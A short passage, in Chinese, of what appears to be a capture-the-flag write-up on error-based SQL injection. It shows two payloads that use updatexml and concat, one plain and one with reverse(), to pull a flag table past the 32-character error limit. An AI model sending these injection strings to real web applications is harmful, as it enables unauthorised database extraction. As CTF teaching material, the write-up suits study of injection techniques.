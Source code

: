 ![4](2.png)

我们使用第一个 **payload** 如下：

```bash
msg=1%00' and updatexml(1,concat(0x7e,(select * from flag),0x7e),1))#&limit_words[\0\]=
```

![5](4.png)

这样我们便注出了flag，但是这里的flag并不齐全，因为 **updatexml报错** 最多只能显示 **32位** ，所以下面我使用 **reverse** 函数注出尾部数据。当然方法不止这一种，大家自己举一反三。

```bash
msg=1%00' and updatexml(1,concat(0x7e,(select reverse(flag) from flag),0x7e),1))#&limit_words[\0\]=
```

![6](5.png)
